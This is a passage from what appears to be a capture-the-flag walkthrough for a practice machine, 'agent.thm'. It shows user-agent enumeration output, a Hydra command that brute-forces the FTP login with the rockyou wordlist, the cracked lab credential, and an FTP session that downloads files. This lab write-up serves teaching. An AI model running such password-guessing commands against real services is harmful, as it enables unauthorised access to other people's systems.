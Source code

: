 ```
❌ Attempt with user-agent: Q - HTML response detected
❌ Attempt with user-agent: R - HTML response detected
❌ Attempt with user-agent: S - HTML response detected
❌ Attempt with user-agent: T - HTML response detected
❌ Attempt with user-agent: U - HTML response detected
❌ Attempt with user-agent: V - HTML response detected
❌ Attempt with user-agent: W - HTML response detected
❌ Attempt with user-agent: X - HTML response detected
❌ Attempt with user-agent: Y - HTML response detected
❌ Attempt with user-agent: Z - HTML response detected

📄 Message saved to 'agent_message.txt' 
```
---

<br><br>

## **Step 3: Crack FTP Password with Hydra**

```bash
hydra -l chris -P /usr/share/wordlists/rockyou.txt ftp://agent.thm
```

**Terminal Output:**
```
[21][ftp] host: agent.thm   login: chris   password: crystal
```

**Password Found:** `crystal`

---

<br><br>

## **Step 4: Connect to FTP Server and Download Files**

```bash
ftp agent.thm 21
```

**FTP Commands:**
```
ftp> ls -la
ftp> mget *
```

<br>

**Terminal Output:**
```
Connected to agent.thm.
220 (vsFTPd 3.0.3)
Name (agent.thm:kali): chris
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls -la
229 Entering Extended Passive Mode (|||53819|)
150 Here comes the directory listing.
drwxr-xr-x    2 0        0            4096 Oct 29  2019 .
drwxr-xr-x    2 0        0            4096 Oct 29  2019 ..
-rw-r--r--    1 0        0             217 Oct 29  2019 To_agentJ.txt
-rw-r--r--    1 0        0           33143 Oct 29  2019 cute-alien.jpg
-rw-r--r--    1 0        0           34842 Oct 29  2019 cutie.png
226 Directory send OK.
ftp> mget *
```